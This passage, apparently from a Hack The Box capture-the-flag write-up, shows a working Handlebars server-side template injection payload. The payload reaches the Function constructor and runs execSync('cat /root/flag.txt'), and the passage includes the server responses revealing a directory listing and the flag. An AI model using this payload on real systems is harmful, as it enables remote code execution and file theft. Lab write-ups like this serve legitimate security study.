 ```
  {{/with}}
{{/with}}
```

In the response:

    <p class="result">
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            Backend
			flag.txt
			snap

    </p>


So now all we need to do is to make the server to execute a `cat` command on that `flag.txt` file:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Response fragment:


    <p class="result">
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
        6b258d726d287462d60c103d0142a81c

    </p>


Flag exfiltrated: `6b258d726d287462d60c103d0142a81c`



https://www.hackthebox.com/achievement/machine/2057492/449
![[Pasted image 20240914162246.png]]